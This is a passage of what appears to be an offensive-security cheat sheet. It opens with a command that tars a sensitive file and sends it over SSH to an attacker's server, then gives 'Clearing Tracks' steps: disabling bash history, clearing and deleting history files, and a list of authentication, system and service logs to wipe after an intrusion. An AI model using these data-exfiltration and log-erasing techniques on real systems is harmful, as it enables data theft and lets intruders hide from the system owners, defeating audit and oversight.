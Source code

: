 The below command will create a tar ball of the `sensitivefile` and send it over SSH to the attacker's SSH server

```
tar zcf - sensitivefile | ssh attacker-ip "cd /<path>/; tar zxpf -"
```

## Clearing Tracks

### Disabling the bash history file to avoid having our commands recorded

This is useful if you managed to get access to a machine and don't want your commands to be recorded.

```
root@Red-hat:~$:Unset HISTFILE
root@Red-hat:~$:Unset HISTSAVE
root@Red-hat:~$:Unset HISTCMD
```

### Clearing History

**Clearing shell history**

```
history -c
```

**Removing bash history file**

```
rm ~/.bash_history
```

### Clearing Logs

Try to clear the below logs before logging out. #Attempted logins for SSH

```
/var/log/auth.log
```

\#System events

```
/var/log/syslog
```

\#Access logs of services such as \[mysql] and \[Apache]

```
/var/log/<service/
```
